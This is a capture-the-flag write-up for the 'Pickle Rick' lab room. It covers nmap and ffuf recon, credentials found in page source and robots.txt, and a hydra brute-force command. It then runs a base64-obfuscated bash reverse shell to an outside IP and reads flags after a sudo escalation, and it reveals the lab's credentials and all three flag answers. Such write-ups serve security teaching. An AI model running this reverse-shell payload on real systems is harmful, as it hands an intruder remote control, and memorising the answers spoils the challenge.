








## TL;DR

In this challenge we find the username `R1ckRul3s` in source code and password `Wubbalubbadubdub` inside `robots.txt`, and then login to `login.php`. There we execute commands and get reverse shell, and immediately find the first flag. The second flag we find inside `/home/rick`, and the third flag we gain using `sudo` and reading it from `/root` directory.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



We detect port `22` open with ssh and port `80` with apache http server
```bash
PORT      STATE    SERVICE VERSION                                                                                                                           
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)                                                                     
| ssh-hostkey:                                                                                                                                               
|   3072 f6:b3:c5:f4:90:54:e2:c3:ca:72:c3:ec:2f:e1:da:0a (RSA)
|   256 35:f1:d1:e1:c3:3c:df:6e:9f:17:e8:2c:3f:5d:20:43 (ECDSA)
|_  256 cc:10:7c:ec:18:7d:08:42:0f:bd:37:8a:0c:a5:a4:66 (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

### Find username and password and hidden login.php endpoint

When we go to the website, we can view this page:


We can find the username in comment, at the source-code.

```bash
┌──(agonen㉿kali)-[~/thm/PickleRick]                                                                                                                         
└─$ curl 10.10.171.154                                                                                                                                       
<!DOCTYPE html>                                                                                                                                              
<html lang="en">                                                                                                                                             
<head>                                                                                                                                                       
  <title>Rick is sup4r cool</title>                                                                                                                          
  <meta charset="utf-8">                                                                      
  <meta name="viewport" content="width=device-width, initial-scale=1">                        
  <link rel="stylesheet" href="assets/bootstrap.min.css">             
  <script src="assets/jquery.min.js"></script>                                
  <script src="assets/bootstrap.min.js"></script>                             
  <style>                                                                     
  .jumbotron {             
    background-image: url("assets/rickandmorty.jpeg");                                        
    background-size: cover;                                                   
    height: 340px;         
  }               
  </style>
</head>                                
<body>                   
                                       
  <div class="container">                      
    <div class="jumbotron"></div>                                                                                                                                                            
    <h1>Help Morty!</h1></br>                                                                                                                                                                
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>                                                                  
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>                                                                   
  </div>  
                                                                                                                                                             
  <!--                              

    Note to self, remember username!

    Username: R1ckRul3s             

  -->                                          
                                               
</body>                                        
</html>
```

The username is `R1ckRul3s`.

Next, we use `ffuf` to find hidden endpoints, we use `-e .php` because we know this is based apache, which is `php` framework:

```bash
┌──(agonen㉿kali)-[~/thm/PickleRick]
└─$ ffuf -u "http://$target/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .php

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.171.154/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 91ms]
.htaccess.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 92ms]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 92ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 92ms]
.hta.php                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 93ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 98ms]
assets                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 89ms]
denied.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 94ms]
index.html              [Status: 200, Size: 1062, Words: 148, Lines: 38, Duration: 88ms]
login.php               [Status: 200, Size: 882, Words: 89, Lines: 26, Duration: 91ms]
portal.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 97ms]
robots.txt              [Status: 200, Size: 17, Words: 1, Lines: 2, Duration: 87ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 88ms]
```



So, we can get `robots.txt`:
```bash
┌──(agonen㉿kali)-[~/thm/PickleRick]
└─$ curl http://10.10.171.154/robots.txt   
Wubbalubbadubdub
```

Oh, let's try to go to `login.php`, we can see some portal:



We already now the username is `R1ckRul3s`, let's try to brute force the password using `hydra`:

```bash
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt $target http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:F=Invalid username"
```

After several of minutes I waited, I thought maybe i missed something. Then, I realized that maybe the string from the `robots.txt` file is the password, the string `Wubbalubbadubdub`.

Let's try:
```bash
R1ckRul3s:Wubbalubbadubdub
```

It worked!



### Execute commands to gain shell and find first ingredient

We can execute commands, I gave this payload for reverse shell from `penelope`:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash
```

and we got reverse shell.



We can find the first secret:
```bash
www-data@ip-10-10-171-154:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt 
mr. meeseek hair
```

### Find second ingredient inside /home/rick

Then, we keep searching and find `clue.txt`, which tells us to look around the file system.



We can find the second ingredient inside `/home/rock` directory



```bash
www-data@ip-10-10-171-154:/$ cat /home/rick/second\ ingredients 
                                                      
1 jerry tear
```

### Find third ingredient inside /root directory using sudo

We execute `sudo -l` to check permissions, we find out we can do everything without password!

```bash
www-data@ip-10-10-171-154:/$ sudo -l
Matching Defaults entries for www-data on ip-10-10-171-154:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-171-154:
    (ALL) NOPASSWD: ALL
```

So, I went to `/root` directory and found the third flag:
```bash
www-data@ip-10-10-171-154:/$ sudo cat /root/3rd.txt
3rd ingredients: fleeb juice
```



And that's it.